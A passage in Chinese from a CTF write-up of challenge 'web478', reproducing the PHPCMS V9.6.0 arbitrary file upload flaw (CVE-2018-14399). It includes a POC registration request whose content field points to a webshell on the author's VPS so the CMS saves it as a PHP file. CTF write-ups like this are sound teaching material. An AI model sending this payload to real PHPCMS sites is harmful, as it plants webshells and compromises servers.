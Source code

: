 这里在 phpinfo() 里找 flag

## web478

`cms` 是 `PHPCMS V9.6.0`

[phpcms v9.6.0任意文件上传漏洞(CVE-2018-14399) - 雨中落叶 - 博客园 (cnblogs.com)](https://www.cnblogs.com/yuzly/p/11394620.html)

接下里就是漏洞复现了，我就是个点鼠标的猴子

先前台注册账号，并抓包拦截

<img src=".\图片\Snipaste_2023-08-09_12-35-55.png" alt="Snipaste_2023-08-09_12-35-55" style="zoom:80%;" />

并构造POC

```
siteid=1&modelid=11&username=test2&password=test2123&email=test2@163.com&info[content]=<img src=http://43.142.255.132:8888/webshell.txt?.php#.jpg>&dosubmit=1&protocol=
```

```
http://43.142.255.132:8888/webshell.txt  是我们的 vps
```
